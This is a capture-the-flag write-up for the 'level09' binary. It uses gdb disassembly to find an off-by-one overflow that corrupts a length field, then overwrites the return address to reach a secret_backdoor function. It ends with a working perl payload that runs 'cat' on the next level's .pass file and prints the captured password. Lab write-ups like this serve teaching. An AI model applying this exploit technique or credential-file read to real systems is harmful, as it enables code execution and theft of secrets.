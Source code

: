 # level09

The program reads a username and a message from stdin. It also has a secret function `secret_backdoor`.

## Step 1. Mesure struct size
```assembly
level09@OverRide:~$ gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble handle_msg" level09
Dump of assembler code for function handle_msg:
   0x00000000000008c0 <+0>:	push   rbp
   0x00000000000008c1 <+1>:	mov    rbp,rsp
   0x00000000000008c4 <+4>:	sub    rsp,0xc0
   0x00000000000008cb <+11>:	lea    rax,[rbp-0xc0]			; 192 bytes
   0x00000000000008d2 <+18>:	add    rax,0x8c					; 140 bytes
   0x00000000000008d8 <+24>:	mov    QWORD PTR [rax],0x0
   0x00000000000008df <+31>:	mov    QWORD PTR [rax+0x8],0x0
   0x00000000000008e7 <+39>:	mov    QWORD PTR [rax+0x10],0x0
   0x00000000000008ef <+47>:	mov    QWORD PTR [rax+0x18],0x0
   0x00000000000008f7 <+55>:	mov    QWORD PTR [rax+0x20],0x0 ; 40 bytes set to 0
   0x00000000000008ff <+63>:	mov    DWORD PTR [rbp-0xc],0x8c ; 8 bytes
[...]
```
```c
struct mystruct
{
	char fisrt[140];
	char second[40];
	int third;
};
```
According to the disassembly, the program defines a structure like this in the `handle_msg` function.

## Step 2. Find spot to overwrite
``` assemble
level09@OverRide:~$ gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble set_username" level09
[...]
   0x0000000000000a3d <+112>:	mov    DWORD PTR [rbp-0x4],0x0	; initialize i = 0
   0x0000000000000a44 <+119>:	jmp    0xa6a <set_username+157>
   0x0000000000000a46 <+121>:	mov    eax,DWORD PTR [rbp-0x4]
   0x0000000000000a49 <+124>:	cdqe
   0x0000000000000a4b <+126>:	movzx  ecx,BYTE PTR [rbp+rax*1-0x90]
   0x0000000000000a53 <+134>:	mov    rdx,QWORD PTR [rbp-0x98]
   0x0000000000000a5a <+141>:	mov    eax,DWORD PTR [rbp-0x4]
   0x0000000000000a5d <+144>:	cdqe
   0x0000000000000a5f <+146>:	mov    BYTE PTR [rdx+rax*1+0x8c],cl
   0x0000000000000a66 <+153>:	add    DWORD PTR [rbp-0x4],0x1	; ++i
   0x0000000000000a6a <+157>:	cmp    DWORD PTR [rbp-0x4],0x28
   0x0000000000000a6e <+161>:	jg     0xa81 <set_username+180>	; if i > 40 break loop
   0x0000000000000a70 <+163>:	mov    eax,DWORD PTR [rbp-0x4]
   0x0000000000000a73 <+166>:	cdqe
   0x0000000000000a75 <+168>:	movzx  eax,BYTE PTR [rbp+rax*1-0x90]
   0x0000000000000a7d <+176>:	test   al,al
   0x0000000000000a7f <+178>:	jne    0xa46 <set_username+121>
```
```c
for (int i = 0; i <= 40; ++i)
	// copy buffer to struct
```
In the `set_username` function, the program copy 41 bytes from input buffer to second element of the structure whose size is 40 bytes. So 41st byte overwrite third element of the structure. Now we can overwrite third element who can control how many bytes we can copy to first element of the structure.

## Step 3. Calculate offset
```assembly
level09@OverRide:~$ gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble handle_msg" level09
   0x00000000000008c0 <+0>:		push   rbp
   0x00000000000008c1 <+1>:		mov    rbp,rsp
   0x00000000000008c4 <+4>:		sub    rsp,0xc0
[...]
   0x0000000000000915 <+85>:	lea    rax,[rbp-0xc0]
   0x000000000000091c <+92>:	mov    rdi,rax
   0x000000000000091f <+95>:	call   0x932 <set_msg>
[...]
```
This is an 64-bit ELF, so every register is 8 bytes. Offset is `0xc0 + 0x8(rbp) = 0xc8(200)`

## Step 4. Find the address of secret backdoor function
```
level09@OverRide:~$ gdb -batch -ex "info functions secret_backdoor" level09
0x000000000000088c  secret_backdoor
```
```
level09@OverRide:~$ gdb -q level09
(gdb) break main
Breakpoint 1 at 0xaac
(gdb) run
Starting program: /home/users/level09/level09

Breakpoint 1, 0x0000555555554aac in main ()
(gdb) info functions secret_backdoor
0x000055555555488c  secret_backdoor
```
We thought that the binary was compiled with PIE(position-independent executable) option. The absolute address of function must be found at runtime.

## Final step. Build payload
```
level09@OverRide:~$ perl -e 'print "A"x40 . "\xff" . "\n" . "A"x200 . "\x8c\x48\x55\x55\x55\x55\x00\x00" . "\n" . "cat /home/users/end/.pass\n"' | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```

